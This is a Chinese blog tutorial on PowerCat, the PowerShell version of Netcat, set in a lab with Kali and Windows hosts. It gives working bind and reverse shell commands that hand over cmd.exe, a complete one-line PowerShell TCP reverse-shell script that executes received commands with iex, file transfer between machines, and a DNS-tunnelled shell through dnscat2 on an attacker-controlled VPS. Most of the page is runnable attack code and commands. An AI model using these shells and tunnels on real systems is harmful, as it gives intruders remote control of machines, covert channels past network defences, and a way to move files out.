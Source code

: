 **目录**

[PowerCat的用法](#t0 "PowerCat的用法")

[正向连接](#t1 "正向连接")

[反向连接](#t2 "反向连接")

[Windows之间互弹shell](#t3 "Windows之间互弹shell")

[方法一：](#t4 "方法一：")

[方法二：](#t5 "方法二：")

[Powercat传输文件](#t6 "Powercat传输文件")

[PowerCat进行DNS隧道通信](#t7 "PowerCat进行DNS隧道通信")

* * *

> **注：在执行完powercat的命令后，还需要按enter键，对面才能接收到shell**

PowerCat是Netcat的[Powershell](https://so.csdn.net/so/search?q=Powershell&spm=1001.2101.3001.7020)版本，作者是这么介绍的，项目地址：[https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat "https://github.com/besimorhino/powercat")

![](https://img-blog.csdnimg.cn/20191204230942485.png)

PowerCat的用法
===========

![](https://img-blog.csdnimg.cn/20200220110139363.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

参数的意义

```
-l      监听一个连接                             
-c      连接到一个监听      
-p      指定端口      
-e      指定一个程序执行      
-ep     执行Powershell             
-v      显示详细信息           
-r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]      
-u      Transfer data over UDP.                              [Switch]      
-dns    Transfer data over dns (dnscat2).                    [String]      1
-dnsft  DNS Failure Threshold.                               [int32]      1
-t      Timeout option. Default: 60                          [int32]      1
-i      Input: Filepath (string), byte array, or string.     [object]      1
-o      Console Output Type: "Host", "Bytes", or "String"    [String]      1
-of     Output File Path.                                    [String]      1
-d      Disconnect after connecting.                         [Switch]      1
-rep    Repeater. Restart after disconnecting.               [Switch]      1
-g      Generate Payload.                                    [Switch]      1
-ge     Generate Encoded Payload.                            [Switch]      1
-h      打印出帮助
```


由于PowerCat是NetCat的PowerShell形式，所以，PowerCat可以无缝的和Netcat连接。PowerCat的用法和Netcat几乎一模一样。

正向连接
----

Windows上的powercat正向连接[Kali](https://so.csdn.net/so/search?q=Kali&spm=1001.2101.3001.7020)上的nc

```
Kali(192.168.10.11)：       
    nc -lvp 8888      
Windows:       
    Import-Module .\powercat.ps1      
    powercat -c 192.168.10.11 -p 8888 -e cmd.exe
```


![](https://img-blog.csdnimg.cn/20200220112857575.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

反向连接
----

Kali上的nc反向连接Windows上的powercat

```
Kali：      
    nc 192.168.10.1 8888 -vv      
Windows(192.168.10.1)：      
    Import-Module .\powercat.ps1      
    powercat -l -p 8888 -e cmd.exe -v
```


![](https://img-blog.csdnimg.cn/20200220112619141.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

Windows之间互弹shell
----------------

### **方法一：**

```
服务器监听(192.168.10.1)：      
    Import-Module .\powercat.ps1      
    powercat -l -p 8888       
客户端连接:      
    Import-Module .\powercat.ps1      
    powercat -c 192.168.10.1 -p 8888 -ep
```


[

\[初学入门\]ArcGIS中Python脚本的使用

application/x-zip ![](https://csdnimg.cn/release/blogv2/dist/components/img/star.png) 4星 超过85%的资源 490KB

![](https://csdnimg.cn/release/blogv2/dist/components/img/arrowDownWhite.png)

下载



](https://download.csdn.net/download/woshi805002103/3544163)

![](https://img-blog.csdnimg.cn/20191204232911403.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### **方法二：**

```
服务器监听(192.168.10.1)：      
    Import-Module .\powercat.ps1      
    powercat -l -p 8888       
客户端连接:      
    .\reverse.ps1
```


其中，reverse.ps1 脚本的内容如下

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.10.1',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


![](https://img-blog.csdnimg.cn/20191204233319413.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

Powercat传输文件
------------

此时，即使文件传输完毕，连接也不会自动端开，需要手动断开。

```
接收端：Windows10(192.168.10.1)      
    Import-Module .\powercat.ps1      
    powercat -l -p 8888 -of test.txt -v      
发送端：Windows7(192.168.10.130)      
    Import-Module .\powercat.ps1      
    powercat -c 192.168.10.1 -p 8888 -i C:\Users\xie\Desktop\test.txt -v
```


![](https://img-blog.csdnimg.cn/20200220113859298.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

PowerCat进行DNS隧道通信
-----------------

PowerCat也是一套基于DNS通信的协议，PowerCat的DNS通信是基于dnscat。所以，在使用DNS隧道通信前，需要在我们的VPS上安装dnscat。

**安装dnscat**

```
git clone https://github.com/iagox86/dnscat2.git      
cd dnscat2/server/      
gem install bundler      
bundle install
```


[

bat 脚本的基本语法和例子

txt ![](https://csdnimg.cn/release/blogv2/dist/components/img/star.png) 0星 超过10%的资源 17KB

![](https://csdnimg.cn/release/blogv2/dist/components/img/arrowDownWhite.png)

下载



](https://download.csdn.net/download/xuheazx/4337266)

![](https://img-blog.csdnimg.cn/20200220221045294.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

安装完dnscat后，在VPS上执行如下命令

```
ruby dnscat2.rb ttpowercat.test -e open --no-cache
```


![](https://img-blog.csdnimg.cn/20200221000837521.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在Windows上执行如下命令

```
powercat -c 192.168.10.11 -p 53 -dns ttpowercat.test -e cmd.exe
```


![](https://img-blog.csdnimg.cn/20200221000859839.png)

然后我们的Kali上就能收到反弹过来的shell了

执行 session -i 1 进入反弹过来的shell中，就可以执行whoami等系统命令了

![](https://img-blog.csdnimg.cn/20200221000949785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)